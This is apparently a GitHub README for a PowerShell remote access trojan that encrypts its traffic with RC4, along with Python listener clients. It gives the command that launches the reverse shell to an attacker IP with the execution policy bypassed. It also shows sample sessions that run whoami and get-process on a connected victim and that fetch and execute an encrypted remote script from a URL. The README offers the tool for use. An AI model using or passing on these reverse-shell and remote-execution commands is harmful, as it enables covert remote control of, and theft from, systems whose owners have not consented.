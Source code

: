 # RC4-PowerShell-RAT
Simple powershell reverse shell using RC4 encryption for all the commands and payloads. PsShellClient.py only accept one client at the time. MultiPsShellClient.py accept several clients at the time.

The RAT will also save all the commands and output received in a log file.

# Usage
```
PS-RemoteShell -ip 1.1.1.1 -port 1111 -key test
```
```
$ python PsShellClient.py
PS-RemoteShell Python Client v1.0
Mr.Un1k0d3r RingZer0 Team


Usage: PsShellClient.py ip port key

$ python PsShellClient.py 0.0.0.0 1111 test
```

```
$ python MultiPsShellClient.py 127.0.0.1 8888 test 20

PS-RemoteShell Python Client v1.1
Mr.Un1k0d3r RingZer0 Team


Help
------
list            List all sessions
interact id     Interact with a session (Example: interact 1)
background      Return to the main console

[*] Waiting for a connection...


(Main Console)>>> [+] *** NEW Callback from 127.0.0.1:49416. Session ID:15

(Main Console)>>> list
Session         Host
---------       ------
15              Callback from 127.0.0.1:49416

(Main Console)>>> interact 15
(192.168.238.1:RINGZER0\mrun1k0d3r):Url >null
(null):Exec >whoami
RINGZER0\mrun1k0d3r

(192.168.238.1:RINGZER0\mrun1k0d3r):Url >background
(Main Console)>>> list
Session         Host
---------       ------
15              Callback from 127.0.0.1:49416

(Main Console)>>> interact 15
RINGZER0\mrun1k0d3r

(192.168.238.1:RINGZER0\mrun1k0d3r):Url >null
(null):Exec >get-process

Handles  NPM(K)    PM(K)      WS(K) VM(M)   CPU(s)     Id ProcessName
-------  ------    -----      ----- -----   ------     -- -----------
    147      22     6252      22516   149     0.22   6972 svchost
```

# Example
```
powershell -exec bypass Import-Module .\PS-RemoteShell.ps1; PS-RemoteShell -ip 1.1.1.1 -port 1111 -key test
```

```
$ python PsShellClient.py 10.0.0.144 8080 test
PS-RemoteShell Python Client v1.0
Mr.Un1k0d3r RingZer0 Team


[*] Waiting for a connection...
[+] Callback from 10.0.0.144:49758
(192.168.70.133:RINGZER0\ME):Url >https://home.ringzer0team.com/ps.php
(https://home.ringzer0team.com/ps.php):Exec >Get-BrowserHomepage

Start Page
----------
http://go.microsoft.com/fwlink/p/?LinkId=255141



(192.168.70.133:RINGZER0\ME):Url >null
(null):Exec >whoami
RINGZER0\ME

(192.168.70.133:RINGZER0\ME):Url >

The ps.php file located at https://home.ringzer0team.com/ps.php is encrypted using the following key: test
```

# Credit 
Mr.Un1k0d3r RingZer0 Team

https://ringzer0team.com
